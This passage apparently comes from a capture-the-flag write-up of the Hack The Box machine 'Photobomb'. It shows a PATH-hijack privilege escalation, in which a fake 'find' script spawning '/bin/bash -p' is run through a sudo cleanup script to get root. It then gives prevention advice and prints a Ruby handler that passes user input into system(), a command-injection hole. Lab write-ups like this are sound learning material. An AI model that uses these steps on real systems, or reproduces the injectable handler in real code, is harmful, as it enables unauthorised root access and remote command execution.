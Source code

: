I created a `find` script in my home folder. Then I modified the `PATH` variable to include my home folder when calling the cleanup script.

```bash
wizard@photobomb:~$ cat find
#!/bin/bash
/bin/bash -p

wizard@photobomb:~$ chmod +x find

wizard@photobomb:~$ sudo PATH=/home/wizard:$PATH /opt/cleanup.sh

root@photobomb:/home/wizard/photobomb# whoami
root

root@photobomb:/home/wizard/photobomb# cat /root/root.txt
REDACTED
```

## Prevention

The first issue with the box was with having credentials in JavaScript. Just don't do that, ever! 

Next, the web application was using user supplied arguments in a command sent to the shell.

```ruby
post '/printer' do
  photo = params[:photo]
  filetype = params[:filetype]
  dimensions = params[:dimensions]

  # handle inputs
  if photo.match(/\.{2}|\//)
    halt 500, 'Invalid photo.'
  end

  if !FileTest.exist?( "source_images/" + photo )
    halt 500, 'Source photo does not exist.'
  end

  if !filetype.match(/^(png|jpg)/)
    halt 500, 'Invalid filetype.'
  end

  if !dimensions.match(/^[0-9]+x[0-9]+$/)
    halt 500, 'Invalid dimensions.'
  end

  case filetype
  when 'png'
    content_type 'image/png'
  when 'jpg'
    content_type 'image/jpeg'
  end

  filename = photo.sub('.jpg', '') + '_' + dimensions + '.' + filetype
  response['Content-Disposition'] = "attachment; filename=#{filename}"

  if !File.exists?('resized_images/' + filename)
    command = 'convert source_images/' + photo + ' -resize ' + dimensions + ' resized_images/' + filename
    puts "Executing: #{command}"
    system(command)
  else
    puts "File already exists."
```
